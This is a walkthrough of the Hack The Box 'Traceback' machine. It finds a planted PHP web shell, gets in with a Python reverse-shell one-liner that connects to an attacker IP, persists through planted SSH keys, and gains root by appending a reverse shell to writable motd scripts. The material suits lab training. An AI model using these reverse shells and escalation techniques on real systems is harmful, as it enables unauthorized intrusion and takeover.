@@@
Title=HTB: Traceback
Description=Traceback is an Easy Linux Hack The Box machine. It was a really fun box that requires some real OSINT which is very refreshing! The final path to root is a fun exploit that requires some special tools.
@@@



## NMAP 
We run the average NMAP scan. 
~~~
nmap -p- -sV traceback
~~~



## Web Server



This site is alternating between a black background and a white background. We see from the source code that there is an HTML comment that says "Some of the best web shells that you might need ;)" with a header of "Xh4h". 



This appears to be a handle so we search for this on Google. The first result is a GitHub profile with a bio of "Software Engineer and cybersecurity researcher". This looks very promising as it is very relevant to what we just found. As we scroll through Xh4H's public repos we eventually find one called [Web-Shells](https://github.com/Xh4H/Web-Shells) with the bio of "Some of the best web shells that you might need". This is the same phrase from the website on Traceback so this is very suspicious!

This repo appears to hold a bunch of PHP web shells. Since PHP is a web language that usually hosts a PHP file as a web page endpoint,  we can try to use these PHP files as a wordlist. We will use GoBuster with the custom wordlist to scan the site.



Then run GoBuster with this wordlist. Note: You don’t have to use GoBuster. You can use whatever directory scanning tool you wish to use.

	gobuster dir --url http://traceback --wordlist webShellWordlist.txt



We found that one of the PHP scripts is being hosted on the machine at /smevk.php. If we go to that extension we see the following.



## SmEvK Research
We arrive at login screen to what appears to be a web shell. We do not know the password just yet, but we do have the source code to this page. On GitHub, we look at the source code for this PHP file and we see the following parameters set at in the PHP file. 



Once we try these credentials on the site, we login to the site and land at this page.



## Initial Shell Using SmEvK
This site has multiple sections. It appears to be a GUI based shell on the target system. We can change the current directory and it will update the list on the screen with the files that are in that directory. There is a section that allows us to enter a command and execute that command. Lets see what resources we available to try to get a reverse shell. If we run `whereis python` we see that Python3 is on the system. 



Since we have access to Python, we can try to spawn a reverse shell. 

	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",8989));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Make sure to start a NetCat listener and to change the IP and Port number to your own information and use the following code to get a reverse shell. Execute that command. 

On our NetCat session we see that we have a reverse shell as "webadmin" that is not a tty. So we us the Python shell spawn technique to get a full shell. 



Lets try to get a more stable shell by generating an SSH key and putting it into webadmin's authorized keys. First we need to generate a SSH key on our local machine. Generate a SSH key using "ssh-keygen" and save it wherever you wish. Then copy the contents of the public key. 

We view all the files inside of webadmin's home directory and see that there is an .ssh folder. I know you see that juicy note.txt file. Lets ignore it for now until we get a better shell. CD to .ssh and lets our SSH key here. You can put an SSH key into this file while using this unstable web shell by redirecting STDOUT to STDIN to write to the file. You can see in the picture below that we echo the key onto the authorized_keys file and then cat the file to see that it is there. 



Now we can SSH to the account. Make sure to specify the correct key when SSH'ing to the account.  



## Lateral Movement to Sysadmin
Now we see that there is a file in webadmin's home directory called note.txt that says the following.



We also try one of our most common enumeration techniques of checking for sudo permissions and see that we are allowed to run /home/sysadmin/luvit as sysadmin without needed a password.



A quick search online shows that Luvit is a Lua shell. We will try to use this new information by using sudo with specifying the user we want to run under. Once we do this we see that drop into the Luvit repl.



A quick search online will show you how to execute system command with Lua. We first need to import the OS module using Lua's require statement. Then we can use that module's execute function to execute system calls. Once we do this we test its functionality by issuing a `whoami` command to see that we are running as sysadmin!



Now we can use this environment to get a move to sysadmin's account. We already have an SSH key on the system so lets try to use this key to access sysadmin's account. We can use ls to see that there is already an authorized_keys file on sysadmin's account.



We see that we are unable to do read webmin's authorized_keys from this shell. So drop out of the Lua shell and copy the SSH key to /tmp where sysadmin will be able to read it from. In webadmin's .ssh file, `cat authorized_keys > /tmp/key` . Back in the Luvit shell we can see that key now located in /tmp/key. We will use this key to access sysadmin's account. We must put this key inside of sysadmin's authorized_keys file. 



And try to SSH to sysadmin's account and we see that we are able to! Grab the user flag located in sysadmin's home profile. 



## Privilege Escalation To Root
After enumerating for awhile and finding nothing too interesting, we decided to view running processes using PSPY. I uploaded PSPY to the machine by starting a Python3 http server and wget'ing it. 



Now run PSPY and read through the results. 



After observing the output for awhile we notice that there is a command that is being run once every 60 seconds as root. Lets break down this command.
* /bin/sh
	* starting a shell script environment to execute commands 
* -c
	* From the man page, "Read commands from the command string operand instead of from standard input". This just means where sending the commands as parameters instead of starting an interactive terminal that will accept STDIN
* sleep 30
	* sleep for 30 seconds
* /bin/cp
	* invoke the copy binary
* /var/backups/.update-motd.d/*
	* all files from /var/backups/.update-motd.d/
* /etc/update-motd.d/
	* destination for all files

If we check the permissions of /etc/update-motd.d/ we see that all files are owned by root but the group is sysadmin. Also notice that the group write flag is set. Furthermore, all of these files have the execute flag set. All of this means that these files are all owned by root and we can write to them. Now, how do we get these files to execute as root?

If we examine PSPY we will also see the following results whenever we start a new SSH session. Note: you will need to initiate the SSH session from another terminal as we are viewing PSPY on our first SSH session. 



This is running the "run-parts" binary with the parameter of /etc/update-motd.d. Since we know that those files are executable, whenever we SSH to the system, all the files inside of /etc/update-motd.d will be executed as root.

We know that the Python3 reverse shell works, as we used it to get initial foothold, so we will use the same idea to try to get a root shell. We could use echo to push that string onto that file but we need to escape a lot of characters to ensure that it will work correctly. I find it easier to use Base64 as we don’t have to worry about any escaping of special characters. 

On your local system, open a text file and paste/edit in your Python3 reverse shell. 



Then encode this string in Base64 by redirecting the STDOUT of cat to the STDIN of Base64 to get the Base64 representation of this string. 



Copy this new string that we will use this on the target system. Make sure that you are in /etc/update-motd.d. Since this file gets overwritten every 30 seconds we will need to be quick. Start your NetCat listener and have your other SSH session ready to execute to launch the payload. We will use redirection to take this Base64 string, decode it back to ASCII, and then append it to the 00-header file. 



Now quick! Go launch your second SSH session and check your NetCat listener to see if you have a root shell. You should see that you have a root reverse shell.



Grab the root flag and your set to jet!
